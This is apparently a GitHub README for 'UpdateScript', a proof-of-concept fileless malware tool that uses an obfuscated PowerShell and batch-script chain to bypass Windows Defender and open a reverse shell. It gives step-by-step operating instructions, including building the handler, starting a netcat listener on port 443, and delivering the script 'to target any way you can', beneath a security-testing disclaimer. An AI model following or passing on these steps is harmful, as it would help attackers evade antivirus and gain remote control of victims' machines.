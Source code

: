 # UpdateScript-v1.2

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup is simple.<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build `SecUp.go`<br>
`go build SecUp.go`
3. From terminal, run: ./SecUp <LHOST><br>
`dlowrie@kali:~/Tools/update_script$ ./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Back at the SecUp terminal<br>
`Press ENTER to continue...`
6. Upload and execute `update_script.cmd` to target any way you can<br>
7. Shellz
<P></P>
If you don't want to build SecUp, then that's OK.<br>
I've put a compiled binary for Linux users in the repo.<br>
In that case you can skip step 2

<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>



https://user-images.githubusercontent.com/19762230/132001237-04ae01ae-102e-4070-9599-ad05128c3f73.mp4


